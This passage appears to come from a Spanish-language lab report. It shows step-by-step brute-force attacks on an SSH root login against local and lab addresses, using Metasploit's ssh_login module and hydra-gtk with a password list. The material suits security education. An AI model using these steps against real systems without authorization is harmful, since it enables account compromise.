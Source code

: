Dentro de la consola de \emph{metasploit}, se ingresaron los siguientes comando para realizar un ataque de fuerza bruta al servidor SSH:

\begin{itemize}
    \item \texttt{use scanner/ssh/ssh\_login} 
    \item \texttt{set RHOSTS 127.0.0.1} 
    \item \texttt{set PASS\_FILE badpasswords} (se incluye el archivo  dentro del directorio ) 
    \item \texttt{set STOP\_ON\_SUCCESS true} 
    \item \texttt{set USER root} 
\end{itemize}

\begin{figure}[h]
    \centering
    \texttt{[image: msfconsole\_brute\_force\_ssh]}
    \caption{Ataque de fuerza bruta a un servidor SSH con \texttt{msfconsole}}
\end{figure}

\subsection{Atacando SSH con \texttt{hydra-gtk}}

Para realizar el mismo experimento pero con la herramienta \texttt{hydra-gtk} (versión con interfaz gráfica de la herramienta \texttt{hydra}), se hicieron los siguientes pasos:

\begin{itemize}
    \item \emph{Target} 
    \begin{itemize}
        \item \texttt{Single Target} $>$ 192.168.0.4 
        \item \texttt{Port} $>$ 22
        \item \texttt{Protocol} $>$ SSH
    \end{itemize}
    \item \emph{Passwords} 
    \begin{itemize}
        \item \texttt{Username} $>$ root
        \item \texttt{Password List} $>$ badpasswords
    \end{itemize}
    \item \emph{Start} 
    \begin{itemize}
        \item \texttt{Start}
    \end{itemize}
\end{itemize}


